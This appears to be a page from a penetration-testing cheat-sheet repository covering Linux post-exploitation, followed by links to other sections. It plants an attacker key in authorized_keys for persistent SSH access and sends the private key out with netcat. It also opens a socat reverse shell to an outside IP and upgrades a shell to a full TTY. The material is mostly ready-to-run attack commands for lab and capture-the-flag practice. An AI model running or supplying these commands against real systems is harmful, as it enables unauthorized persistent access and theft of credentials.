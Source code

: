 # SSH
- Using .ssh/authorized_keys
  - Create the keys: `ssh-keygen -t rsa`
  - Copy the public key to .ssh/authorized_keys: `cp id_rsa.pub ~/.ssh/authorized_keys`
  - Change the permissions of the .ssh folder to 700: `chmod 700 ~/.ssh`
  - Change the permissions of the .ssh/authorized_keys file to 600: `chmod 600 ~/.ssh/authorized_keys`
  - Download the private key: `nc ip port < id_rsa`
  - Change the permissions of the local private key to 600: `chmod 600 id_rsa`
  - Log in using SSH: `ssh -i id_rsa user@ip`
 - Uploading files using `scp` over ssh: `scp -i id_rsa file user@ip:/path/to/out/dir/`

# [Upgrading TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- With Python:
```bash
	python -c 'import pty; pty.spawn("/bin/bash")'
	ctrl+z
	echo $TERM && tput lines && tput cols
	stty raw -echo
	fg
	export SHELL=bash
	export TERM=xterm-256color
	stty rows 24 columns 121
```
- With Socat:
```bash
	socat file:`tty`,raw,echo=0 tcp-listen:4445
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.35:4445
```

# [General](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/general.md)
# [Enumeration](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/enumeration.md)
# [Local File Inclusion](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/local%20file%20inclusion.md)
# [Networking](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/networking.md)
# [Characters not allowed](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/characters%20not%20allowed.md)
# [Exploitation](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/exploitation.md)
